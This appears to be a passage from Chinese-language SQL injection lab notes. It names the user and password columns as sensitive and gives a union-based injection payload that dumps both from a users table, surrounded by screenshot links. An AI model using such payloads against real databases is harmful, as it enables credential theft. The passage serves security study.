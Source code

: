 ![image.png](03.SQL%E6%B3%A8%E5%85%A5/1672038524452-d71b69af-2e02-4180-8f10-c28527f8137c.png)

敏感字段为user,password

### 获取字段内容

```
-1' union select 1,group_concat(user,0x3A,password) from users limit 0,1 --  
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1672038636049-081cdac0-1095-4ef6-ab8b-c7df716ecf99.png)
